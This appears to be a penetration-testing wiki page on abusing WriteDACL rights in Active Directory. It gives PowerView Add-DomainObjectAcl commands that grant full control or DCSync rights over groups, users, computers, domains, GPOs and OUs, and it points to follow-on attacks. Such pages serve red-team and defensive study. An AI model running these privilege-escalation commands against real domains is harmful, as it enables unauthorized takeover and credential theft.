 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WriteDACL

## Information

With write access to the target object’s DACL, you can **grant yourself any privilege you want on the object**.

## Exploitation

### Over a Group

Grant yourself full control of the group -> Add members to the group (see [here](../rights/genericall.md#over-a-group)).

```powershell
# Assigning the right 
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -Rights WriteMembers
```

### Over a User

Grant yourself full control of the user -> See [here](../rights/fullcontrol.md) for exploitation options.

```powershell
# Assigning GenericAll permissions over the user
Add-DomainObjectAcl -TargetIdentity harmj0y -Rights All
```

### Over a Computer

Grant yourself full control of the computer ->  [read the LAPS password](readlapspassword.md) or perform [RBCD](../attacks/delegation/resource-based.md) against the target computer.

```powershell
# Assigning GenericAll permissions over the computer
Add-DomainObjectAcl -TargetIdentity windows01 -Rights All
```

Then some options are

### Over a Domain

Grant yourself DCSync rights -> perform a [DCSync attack](../rights/dcsync.md).

```powershell
Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync
```

### Over GPOs

Grant yourself full control of the GPO -> edit the GPO to take over an object the GPO applies to.

```powershell
Add-DomainObjectAcl -TargetIdentity TestGPO -Rights All
```

### Over OUs

Grant yourself full control of the OU -> Add a new ACE to the OU that inherits down to child objects to take over those child objects.

```powershell
Add-DomainObjectAcl -TargetIdentity (OU GUID) -Rights All
```

